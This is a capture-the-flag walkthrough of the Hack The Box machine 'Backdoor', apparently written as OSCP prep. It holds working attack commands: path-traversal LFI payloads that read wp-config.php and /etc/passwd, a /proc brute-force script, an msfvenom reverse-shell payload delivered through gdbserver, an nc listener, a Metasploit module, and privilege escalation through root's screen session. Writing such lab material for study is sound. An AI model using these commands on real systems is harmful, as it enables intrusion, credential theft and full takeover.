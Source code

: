 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP)

---

## 🔍 Recon

### Nmap Scans
```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.11.125
nmap -p 22,80,1337 -sCV -oA scans/nmap-tcpscripts 10.10.11.125
```

### Manual Checks
```bash
nc -v 10.10.11.125 1337
curl 10.10.11.125:1337
```

---

## 🌐 [Website & WordPress Recon](HTTP)

### /etc/hosts Update
```bash
echo "10.10.11.125 backdoor.htb" | sudo tee -a /etc/hosts
```

### WPScan
```bash
wpscan -e ap,t,tt,u --url http://backdoor.htb --api-token $WPSCAN_API
wpscan -e ap --plugins-detection aggressive --url http://backdoor.htb --api-token $WPSCAN_API
```

### Feroxbuster (Plugin Discovery)
```bash
feroxbuster -u http://backdoor.htb/wp-content/plugins -w plugins.txt
```

---

## 🧪 Shell as User

### Ebook Download Plugin Exploit
```bash
# Check plugin version
curl http://backdoor.htb/wp-content/plugins/ebook-download/readme.txt

# Exploit LFI to read wp-config
curl http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php

# Read /etc/passwd
curl http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../../../etc/passwd
```

### Process Enumeration via /proc
```bash
curl -s http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/proc/self/cmdline | tr '\000' ' ' | cut -c115- | rev | cut -c32- | rev
```

### Bash Script to Find gdbserver
```bash
#!/bin/bash
for i in $(seq 1 50000); do
    path="/proc/${i}/cmdline"
    skip_start=$(( 3 * ${#path} + 1))
    skip_end=32

    res=$(curl -s http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=${path}ne -o- | tr '\000' ' ')
    output=$(echo $res | cut -c ${skip_start}- | rev | cut -c ${skip_end}- | rev)
    if [[ -n "$output" ]]; then
        echo "${i}: ${output}"
    fi
done
```

---

## 🧨 Exploit gdbserver (User Shell)

### Create Reverse Shell Payload
```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.6 LPORT=443 PrependFork=true -f elf -o rev.elf
```

### GDB Remote Exploit
```bash
gdb -q rev.elf
(gdb) target extended-remote 10.10.11.125:1337
(gdb) remote put rev.elf /dev/shm/rev
(gdb) set remote exec-file /dev/shm/rev
(gdb) run
```

### Catch the Shell
```bash
nc -lnvp 443
```

### Upgrade the Shell
```bash
script /dev/null -c bash
# then Ctrl+Z
stty raw -echo; fg
# then type
reset
# when prompted:
screen
```

---

## 💣 Metasploit Method (Alternative)

```bash
msfconsole
use exploit/multi/gdb/gdb_server_exec
set RHOSTS 10.10.11.125
set RPORT 1337
set LHOST tun0
run
```

---

## ⚡ Shell as Root

### Spot screen Process
```bash
ps auxww | grep screen
```

### Connect to Root's Screen Session
```bash
screen -ls root/
TERM=screen screen -x root/[session_id]
# OR
TERM=screen screen -x root/root
```

---

## 🏁 Flags
```bash
cat /home/user/user.txt
cat /root/root.txt
```